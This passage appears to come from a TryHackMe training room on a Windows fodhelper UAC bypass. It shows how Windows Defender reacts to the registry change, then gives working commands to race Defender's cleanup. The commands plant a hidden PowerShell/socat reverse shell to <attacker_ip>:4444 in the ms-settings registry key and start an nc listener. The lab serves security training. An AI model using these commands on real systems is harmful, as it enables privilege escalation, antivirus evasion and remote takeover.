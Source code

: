 First, using your GUI connection, go to your desktop and double-click the following icon to enable Windows Defender:  

![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5ed5961c6276df568891c3ea/room-content/a138ccd399c27bb922efcc266053c3a3.png)

Now try exploiting fodhelper again through the backdoor connection and see what happens on the server's GUI. Just as you change the `(default)` value in `HKCU\Software\Classes\ms-settings\Shell\Open\command` to insert your reverse shell command, a Windows Defender notification will pop up:

![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5ed5961c6276df568891c3ea/room-content/9ebebccbac675f6b66f98a16446d1859.png)  

By clicking the notification, we can check the details on the alert, which mention a UAC bypass attempt by modifying a registry value:

![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5ed5961c6276df568891c3ea/room-content/8faadca4b214e13d32a6e7979554dcdc.png)  

If you query the corresponding value on the registry, you will notice it has been erased:

Command Prompt

```shell-session
C:\Windows\system32>reg query %REG_KEY% /v ""

HKEY_CURRENT_USER\Software\Classes\ms-settings\Shell\Open\command
    (Default)    REG_SZ    (value not set)
```

Although by now it would seem our exploit wouldn't work with Windows Defender enabled, check what happens if you run the same commands but with a slight modification (be sure to replace your IP address where needed):  

Command Prompt

```shell-session
C:\> set REG_KEY=HKCU\Software\Classes\ms-settings\Shell\Open\command
C:\> set CMD="powershell -windowstyle hidden C:\Tools\socat\socat.exe TCP:<attacker_ip>:4444 EXEC:cmd.exe,pipes"

C:\> reg add %REG_KEY% /v "DelegateExecute" /d "" /f
The operation completed successfully.

C:\> reg add %REG_KEY% /d %CMD% /f & reg query %REG_KEY%
HKEY_CURRENT_USER\Software\Classes\ms-settings\Shell\Open\command
    DelegateExecute    REG_SZ    
    (Default)    REG_SZ    powershell -windowstyle hidden C:\Tools\socat\socat.exe TCP:<attacker_ip>:4444 EXEC:cmd.exe,pipes
```

We have added a quick query to the offending registry value right after setting it to the command required for our reverse shell. Surprisingly, the query outputs our command intact. We still get alerted by Windows Defender, and a second later, the offending registry value gets deleted as expected. It appears it takes a moment for Windows Defender to take action on our exploit, so let's set a reverse listener on our attacker's machine:

```
nc -lvp 4444
```

